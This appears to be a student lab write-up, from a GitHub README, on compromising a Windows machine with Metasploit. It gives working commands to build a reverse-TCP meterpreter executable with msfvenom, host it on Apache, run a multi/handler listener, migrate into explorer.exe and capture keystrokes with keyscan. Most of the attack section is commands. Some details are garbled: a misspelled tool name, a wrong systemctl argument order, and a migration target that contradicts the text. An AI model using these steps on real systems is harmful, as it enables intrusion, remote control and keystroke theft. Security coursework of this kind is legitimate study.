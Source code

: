 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![Output](Op1-eh6.png)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![Output](Op2-eh6.jpeg)

copy the fun.exe into the apache /var/www/html folder

![Output](Op3-eh6.jpeg)

Start apache server
sudo systemctl apache2 start

![Output](Op4-eh6.jpeg)

Check the status of apache2

![Output](Op5-eh6.jpeg)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![Output](Op6-eh6.jpeg)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Output](Op7-eh6.png)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![Output](Op8-eh6.jpeg)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![Output](Op9-eh6.png)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![Output](Op10-eh6.jpeg)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Output](Op11-eh6.png)
keyscan_dump	Shows the keystrokes captured so far
![Output](Op12-eh6.jpeg)

## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
